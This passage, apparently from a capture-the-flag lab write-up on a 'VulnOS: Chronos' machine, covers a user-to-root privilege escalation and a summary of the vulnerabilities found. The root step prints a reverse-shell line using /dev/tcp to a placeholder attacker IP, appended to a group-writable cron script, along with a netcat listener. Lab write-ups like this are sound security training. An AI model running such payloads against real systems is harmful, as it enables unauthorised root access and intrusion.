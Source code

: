 > [!SUCCESS] Credentials Found
> - **User:** `[REDACTED_USER]`
> - **Password:** `[REDACTED_USER_PASSWORD]`

**4.2.3. User Flag Acquisition**
> [!TIP] Switch User
> ```bash
> su [REDACTED_USER]
> # Password: [REDACTED_USER_PASSWORD]
> ```

> [!SUCCESS] User Flag Captured
> ```bash
> cat /home/[REDACTED_USER]/user.txt
> [REDACTED_USER_FLAG]
> ```

#### 4.3. Privilege Escalation: Standard User to `root`

**4.3.1. Discovery of Misconfigured Cron Job**
Enumeration of `cat /etc/crontab` revealed a script at `/opt/scripts/backup.sh` being executed by `root` every three minutes.

**4.3.2. Exploitation of Insecure File Permissions**
An inspection of the script's permissions (`ls -l`) revealed it was group-writable by the `devs` group. The `id` command confirmed that our current user was a member of this group.

**4.3.3. Root Flag Acquisition**
> [!TIP] Inject Payload and Start Listener
> ```bash
> # Start final listener on attacker machine
> nc -lvnp 5555
> 
> # From the user's shell, append the payload
> echo "bash -c 'bash -i >& /dev/tcp/YOUR_ATTACKER_IP/5555 0>&1'" >> /opt/scripts/backup.sh
> ```
> After waiting for the cron job to run, a root shell was obtained.

> [!SUCCESS] Root Flag Captured
> ```bash
> cat /root/root.txt
> [REDACTED_ROOT_FLAG]
> ```

---

### 5. Summary of Vulnerabilities

- **Information Disclosure:** `robots.txt` exposed a sensitive administration page.
- **Username Enumeration:** The login form provided distinct responses, allowing for the confirmation of valid usernames.
- **Weak Password Policy:** The admin account used a dictionary-word password susceptible to brute-forcing.
- **Insecure File Upload Controls:** The combination of metadata-based content validation and a server-side handler misconfiguration allowed for the upload and execution of a polyglot image shell.
- **Credential Storage:** A password hash was stored in an accessible SQLite database, allowing for offline cracking.
- **Insecure File Permissions on Scheduled Task:** A root-owned script executed by cron was group-writable, allowing a non-privileged user to inject and execute code as root.

---

### 6. Conclusion

The objectives of the penetration test were fully met. A complete compromise of the "VulnOS: Chronos" system was achieved by chaining multiple medium-severity vulnerabilities, demonstrating a realistic attack path from initial web reconnaissance to full root-level control.
